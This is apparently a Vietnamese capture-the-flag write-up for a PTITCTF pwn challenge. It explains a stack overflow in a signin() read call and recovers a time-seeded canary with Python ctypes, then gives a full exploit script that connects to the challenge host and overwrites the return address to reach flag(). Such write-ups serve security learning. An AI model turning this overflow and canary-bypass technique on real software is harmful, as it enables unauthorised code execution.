







### PWN
> `nc 203.162.88.114 44444`
[Binary and Source](https://github.com/bigbearattt/PTITCTF/raw/master/pwn/src.zip)

### Solve

Nhìn vào source code C thì t thấy có hàm `flag()` là in ra flag mà luồng thực thi của chương trình không hè có luồng nào chạy đến hàm này.
Chính vì thế có thể đoán được là t phải Overflow để tràn đến địa chỉ hàm flag.

Địa chỉ của hàm `flag()` t sử dụng `IDA Pro` để xem thì có là `66666835`

Nhìn qua `cấu trúc dữ liệu của biến` và một vài `biến toàn cục`:

Với dữ liệu nêu trên thì ta thấy trong luồng có 2 hàm sử dụng các hàm `read()` là có thể sử dụng để overflow là `signup()` và `signin()`
Tuy nhiên `signup()` các hàm `read()` là an toàn vì giá trị tham số thứ 2 bằng với kích thước của biến.

Còn hàm `signin()` hàm `read()` ở đây có vẻ không an toàn vì độ dài tham số thứ 2 lớn hơn kích thước biến.

Sử dụng IDA ta có:

Biến `pas: bp-10Ch` and `use: bp-8Ch` and `canary = bp-Ch`
> =>> qua đó suy ra có thể Overflow hàm `read(0,ME.usn,255);` vì `0x8C = 140`
Tuy nhiên nếu overflow ở đây thì sẽ bị tràn qua giá trị của biến `canary` mà nếu `canary != tmp` thì chương trình sẽ thực hiện `exit(1)`

> Câu hỏi đặt ra là làm thế nào để overflow mà vẫn có thể giữ lại giá trị cho biến `canary` thế nên ta phải tính được giá trị của `tmp`

`tmp` được tính bằng hàm `srand()` với `time(NULL)` trong `C`.
Với python ta `import` thư viện của `C` vào: `from ctypes import CDLL` and `libc = CDLL('libc.so.6')`
```py
now = int(floor(time.time()))
tm = ''
libc.srand(now)
c = 0
while c<4:
  ch =  libc.rand()%0x7f
	if ch >0x20 and ch <0x7f:
	  tm += chr(ch)
		c += 1
```
Ngoài ra thì có thể tính toán các giá trị cần gửi lần lượt là như sau:
```
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent6 = ????
sent7 = "trollpassword\n"
```
Nhiệm vụ là phải tim được `sent6` và với những gì đã có ở trên thì t có thể tính ra được:
```py
sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
```
Sau đây là code hoàn chỉnh:

```py
from math import *
import socket
import time
from ctypes import CDLL
libc = CDLL('libc.so.6')
host = '203.162.88.114'
port = 44444
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent7 = "trollpassword\n"

def re(a):
	a = '0000000'+a.encode('hex')
	a = a[-8:]
	b = ''
	for i in range(4):
		b = a[i*2:i*2+2] + b
	return b.decode('hex')

def pwn():
	sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
	s = socket.socket()
	s.connect((host,port))
	now = int(floor(time.time()))
	tm = ''
	libc.srand(now)
	c = 0
	while c<4:
		ch =  libc.rand()%0x7f
		if ch >0x20 and ch <0x7f:
			tm += chr(ch)
			c += 1
	sent6 = sent6.replace('tmp',tm)
	s.recv(1024)
	s.recv(1024)
	s.send(sent1)
	s.recv(1024)
	s.send(sent2)
	s.recv(1024)
	s.send(sent3)
	s.recv(1024)
	s.send(sent4)
	s.recv(1024)
	s.send(sent5)
	s.recv(1024)
	s.send(sent6)
	s.recv(1024)
	s.send(sent7)
	return s.recv(1024)	

def main():
	while True:
		rs = pwn()
		if "DETECT BOF" in rs:
			continue
		else: 
			print rs
			break

if __name__=="__main__":
	main()
```
